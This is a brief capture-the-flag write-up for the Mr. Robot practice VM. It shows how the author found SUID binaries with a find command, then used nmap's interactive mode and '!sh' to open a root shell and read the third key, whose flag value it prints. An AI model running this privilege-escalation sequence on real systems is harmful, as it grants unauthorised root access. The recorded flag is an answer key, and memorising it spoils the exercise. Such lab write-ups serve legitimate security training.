



## MR.ROBOT  VM 

## Objective
Finding key 3

## Solution
over last key requires root access so we need to escalate our privilages to root
open google and search for privilage escalation linux.
i opened up the first link(payatu.com).



it gives various techniques.
see the third point.EXPLOITING SUID EXECUTABLES
trying it.
```
find / -perm -u=s -type f 2>/dev/null

```




seeing result 
we find that nmap have suid bit set similar to the result in payatu site technique.
so we can use nmap to execute commands with root privilage

```
nmap --interactive

```

now use !sh to type shell commands

```
!sh
cd /root
ls
cat key-3-of-3.txt
```


we got our final key.

key3=04787ddef27c3dee1ee161b21670b4e4


